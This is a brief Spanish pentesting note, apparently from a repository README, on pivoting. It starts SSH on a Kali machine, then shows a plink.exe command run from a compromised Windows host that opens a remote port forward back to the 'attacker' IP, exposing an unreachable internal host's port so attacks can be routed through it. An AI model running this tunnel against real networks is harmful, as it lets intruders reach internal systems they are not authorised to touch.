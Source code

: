 primero tenemos que iniciar ssh

    sudo systemctl start ssh

### Dinamic remote port forwarding
Nos conectamos a nuestra maquina atacante mediante ssh y redireccionamos el tráfico a un puerto de una pc inaccesible a un puerto de nuestra máquinola atacante

    plink.exe -ssh -l kali -pw <YOUR PASSWORD HERE> -R 127.0.0.1:<puerto_a_abrir_en_attacker>:<ip_destino>:<puerto> <ip_attacker>



Luego realizamos los ataques desde la máquina atacante al 127.0.0.1:puerto asignado
